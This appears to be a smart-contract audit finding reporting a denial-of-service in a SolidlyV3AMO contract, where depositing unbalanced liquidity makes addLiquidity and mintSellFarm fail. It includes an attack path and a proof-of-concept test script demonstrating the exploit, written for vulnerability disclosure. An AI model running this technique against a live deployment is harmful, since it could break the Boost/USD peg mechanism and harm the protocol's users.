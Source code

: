 ### External pre-conditions

N/A

### Attack Path

Attackers can brick addLiquidity function by depositing LP.

### Impact

Attackers can deposit LP to make add liquidity fail, which also makes `mintSellFarm()` fail. This is an important feature to keep Boost/USD pegged, thus a high severity issue.

This is basically no cost for attackers since the Boost/USD will always go back to 1:1 so no impermanent loss is incurred.

### PoC

Add the following code in SolidlyV3AMO.test.ts. It does the following:

1. Add unbalanced liquidity so that total liquidity increases, but USD.balanceOf(pool) does not increase.
2. Mint some USD to SolidlyV3AMO for adding liquidity.
3. Try to add liquidity, but it fails due to incorrect liquidity calculation (tries to add too much liquidity for not enough USD tokens).

```solidity
      it("Should execute addLiquidity successfully", async function() {
        // Step 1: Add unbalanced liquidity so that total liquidity increases, but USD.balanceOf(pool) does not increase.
        {
          // -276325 is the current slot0 tick.
          console.log(await pool.slot0());
          await boost.connect(boostMinter).mint(admin.address, boostDesired * 100n);
          await testUSD.connect(boostMinter).mint(admin.address, usdDesired * 100n);
          await boost.approve(poolAddress, boostDesired * 100n);
          await testUSD.approve(poolAddress, usdDesired * 100n);
          console.log(await boost.balanceOf(admin.address));
          console.log(await testUSD.balanceOf(admin.address));
          await pool.mint(
            amoAddress,
            -276325 - 10,
            tickUpper,
            liquidity * 3n,
            0,
            0,
            deadline
          );
          console.log(await boost.balanceOf(admin.address));
          console.log(await testUSD.balanceOf(admin.address));
        }

        // Step 2: Mint some USD to SolidlyV3AMO for adding liquidity.
        await testUSD.connect(admin).mint(amoAddress, ethers.parseUnits("1000", 6));
        const usdBalance = await testUSD.balanceOf(amoAddress);

        // Step 3: Add liquidity fails due to incorrect liquidity calculation.
        await expect(solidlyV3AMO.connect(amo).addLiquidity(
          usdBalance,
          1,
          1,
          deadline
        )).to.emit(solidlyV3AMO, "AddLiquidity");
      });
```
